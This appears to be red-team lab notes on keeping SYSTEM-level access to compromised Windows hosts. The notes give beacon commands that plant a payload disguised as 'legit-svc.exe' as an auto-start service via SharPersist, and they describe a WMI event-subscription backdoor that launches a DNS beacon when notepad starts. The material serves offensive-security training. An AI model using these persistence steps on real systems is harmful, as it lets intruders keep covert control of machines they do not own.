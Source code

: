 ```yaml
---
description: 09/09/2025
---
```


# Elevated Host Persistence

This takes place after we've elevated our privileges on a host, we can also add persistence mechanisms to maintain `SYSTEM` access.

This allows us to be able to maintain elevated access to a machine without having to exploit a vulnerability again (because this may be patched or fixed at a later date).

{% hint style="info" %}
For these methods to work, you must be running in a _**High Integrity Beacon**_.
{% endhint %}

{% hint style="danger" %}
Remember that SYSTEM processes cannot authenticate to the web proxy, so we can't use HTTP Beacons. Use P2P or DNS Beacons instead.
{% endhint %}

## Windows Services

As we can clearly see through the enumeration process, there are many Windows services that run as `SYSTEM`.

Our various means of exploiting services for privilege escalation also act as persistence, but at the cost of breaking the legitimate service.

Instead, we can opt-in for a more reliable and safer approach of creating our own service which won't impact on existing services.

```
beacon> cd C:\Windows
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe legit-svc.exe

beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add

[*] INFO: Adding service persistence
[*] INFO: Command: C:\Windows\legit-svc.exe
[*] INFO: Command Args: 
[*] INFO: Service Name: legit-svc

[+] SUCCESS: Service persistence added
```

#### What did this do?

This creates a new service in a _**STOPPED**_ state, but with the `START_TYPE` set to `AUTO_START`.&#x20;

_<mark style="color:yellow;">**This means the service won't run until the machine is rebooted. When the machine starts, so will the service, and it will be waiting for a connection**</mark>_.

<figure><img src="../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>

## Windows Management Instrumentation (WMI) Event Subscriptions

Persistence can also be accomplished via WMI events.

They can be achieved by leveraging the following three classes:

* `EventConsumer`
* `EventFilter`
* `FilterToConsumerBinding`

### EventConsumer

An `EventConsumer` is the action that we want to perform. In this case, we want to execute a payload.

This can be via OS commands (e.g. PowerShell one-liner or VBScript).

### EventFilter

This is a trigger that we can act upon.&#x20;

Any arbitrary WMI query can be used as a filter which provides practically unlimited options. These can include when a particular process starts such as:

* When a user logs in
* When a USB device is inserted
* Any specific time of day or on a timed interval

### FilterToConsumerBinding

This links an `EventConsumer` and `EventFilter` together.

[PowerLurk](https://github.com/Sw4mpf0x/PowerLurk) is a PowerShell tool for building these WMI events.  In this example, I will upload a DNS payload into the Windows directory, import PowerLurk.ps1 and create a new WMI event subscription that will execute it whenever notepad is started.

You can view these classes afterwards using `Get-WmiEvent -Name WmiBackdoor`.  The _CommandLineTemplate_ for the EventConsumer will simply be `C:\Windows\dns_x64.exe`; and query for the EventFilter will be `SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='notepad.exe'`.

Open notepad on Workstation 2 and the DNS Beacon will appear:

<figure><img src="../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

The backdoor can be removed with: `Get-WmiEvent -Name WmiBackdoor | Remove-WmiObject`.
